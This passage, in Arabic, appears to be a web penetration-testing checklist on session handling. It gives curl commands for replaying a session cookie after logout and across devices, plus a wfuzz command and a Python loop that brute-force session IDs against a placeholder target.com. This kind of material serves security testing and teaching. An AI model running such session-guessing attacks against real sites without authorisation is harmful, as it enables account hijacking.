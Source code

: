 ## المحاولة السادسة: إعادة استخدام الجلسة بعد الخروج
**الوصف**: اختبار إذا كان الـ Session ID يظل صالحًا بعد تسجيل الخروج.
- **الخطوات**:
  1. سجل دخول واستخرج الـ Session ID.
  2. سجل خروج وجرب الـ Session ID.
- **الأدوات/الأوامر**:
  - cURL:
    ```bash
    curl -b "session=abc123" https://target.com/profile
    ```
- **الملخص**:
  - cURL: `curl -b "session=abc123" https://target.com/profile`

---

## المحاولة السابعة: الجلسات المتعددة
**الوصف**: اختبار إذا كان الموقع يسمح بجلسات متعددة بنفس الـ Session ID.
- **الخطوات**:
  1. استخدم الـ Session ID في جهازين.
  2. تحقق إذا كان الوصول ممكن من الجهازين.
- **الأدوات/الأوامر**:
  - cURL:
    ```bash
    curl -b "session=abc123" https://target.com/profile
    ```
- **الملخص**:
  - cURL: `curl -b "session=abc123" https://target.com/profile`

---

## المحاولة الثامنة: أتمتة اختبار الجلسات
**الوصف**: أتمتة اختبار الـ Session IDs لتجربة عدة معرفات.
- **الخطوات**:
  1. جهز قائمة Session IDs.
  2. استخدم أداة لإرسال طلبات متعددة.
- **الأدوات/الأوامر**:
  - wfuzz:
    ```bash
    wfuzz -c -z file,session_ids.txt --hc 404 -b "session=FUZZ" https://target.com/profile
    ```
  - Python:
    ```python
    import requests
    url = "https://target.com/profile"
    session_ids = ["123456", "123457"]
    for sid in session_ids:
        response = requests.get(url, cookies={"session": sid})
        print(f"Session ID: {sid}, Status: {response.status_code}")
    ```
- **الملخص**:
  - wfuzz: `wfuzz -c -z file,session_ids.txt --hc 404 -b "session=FUZZ" https://target.com/profile`
  - Python: `python test_session_ids.py`

---

